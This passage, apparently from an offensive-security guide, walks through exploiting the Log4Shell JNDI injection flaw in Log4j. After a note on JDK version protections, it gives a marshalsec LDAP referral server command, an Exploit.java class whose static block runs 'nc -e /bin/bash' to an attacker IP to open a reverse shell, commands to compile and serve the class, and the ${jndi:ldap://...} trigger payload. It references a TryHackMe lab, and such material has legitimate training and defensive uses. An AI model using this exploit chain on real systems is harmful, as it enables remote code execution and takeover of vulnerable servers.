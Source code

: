 Any other env variable name that could store sensitive information
```
```
### RCE Information

> [!TIP]
> Hosts running on JDK versions above 6u141, 7u131, or 8u121 are safeguarded against the LDAP class loading attack vector. This is due to the default deactivation of `com.sun.jndi.ldap.object.trustURLCodebase`, which prevents JNDI from loading a remote codebase via LDAP. However, it's crucial to note that these versions are **not protected against the deserialization attack vector**.
>
> For attackers aiming to exploit these higher JDK versions, it's necessary to leverage a **trusted gadget** within the Java application. Tools like ysoserial or JNDIExploit are often used for this purpose. On the contrary, exploiting lower JDK versions is relatively easier as these versions can be manipulated to load and execute arbitrary classes.
>
> For **more information** (_like limitations on RMI and CORBA vectors_) **check the previous JNDI Naming Reference section** or [[https://jfrog.com/blog/log4shell-0-day-vulnerability-all-you-need-to-know/|https://jfrog.com/blog/log4shell-0-day-vulnerability-all-you-need-to-know/]]

### RCE - Marshalsec with custom payload

You can test this in the **THM box:** [[https://tryhackme.com/room/solar|**https://tryhackme.com/room/solar**]]

Use the tool [[https://github.com/mbechler/marshalsec) (jar version available [**here**](https://github.com/RandomRobbieBF/marshalsec-jar)|**marshalsec**]]. This approach establishes a LDAP referral server to redirect connections to a secondary HTTP server where the exploit will be hosted:

```bash
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://<your_ip_http_server>:8000/#Exploit"
```
```
To prompt the target to load a reverse shell code, craft a Java file named `Exploit.java` with the content below:

```java
public class Exploit {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc -e /bin/bash YOUR.ATTACKER.IP.ADDRESS 9999");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```
```
Compile the Java file into a class file using: `javac Exploit.java -source 8 -target 8`. Next, initiate a **HTTP server** in the directory containing the class file with: `python3 -m http.server`. Ensure the **marshalsec LDAP server** references this HTTP server.

Trigger the execution of the exploit class on the susceptible web server by dispatching a payload resembling:

```bash
${jndi:ldap://<LDAP_IP>:1389/Exploit}
```
```
**Note:** This exploit hinges on Java's configuration to permit remote codebase loading via LDAP. If this is not permissible, consider exploiting a trusted class for arbitrary code execution.

### RCE - **JNDIExploit**

> [!TIP]
```